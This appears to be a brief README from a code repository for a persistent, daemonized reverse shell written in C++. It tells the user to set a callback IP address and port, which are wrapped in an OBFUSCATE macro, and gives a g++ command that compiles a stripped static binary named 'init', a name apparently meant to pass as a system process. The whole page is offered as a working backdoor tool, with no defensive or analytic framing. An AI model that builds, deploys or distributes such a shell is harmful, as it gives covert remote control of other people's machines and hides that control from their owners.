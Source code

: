 ### persistent daemonized reverse shell


Change with your public IP and open port in `daemon_shell.cpp`
```c
#define REMOTE_ADDR OBFUSCATE("207.46.148.7")
#define REMOTE_PORT 5069
```

compile with
```bash
g++ daemon_shell.cpp -O3 -march=native -fPIC -g -s -static -o ./init
```

output binary will be named init :)
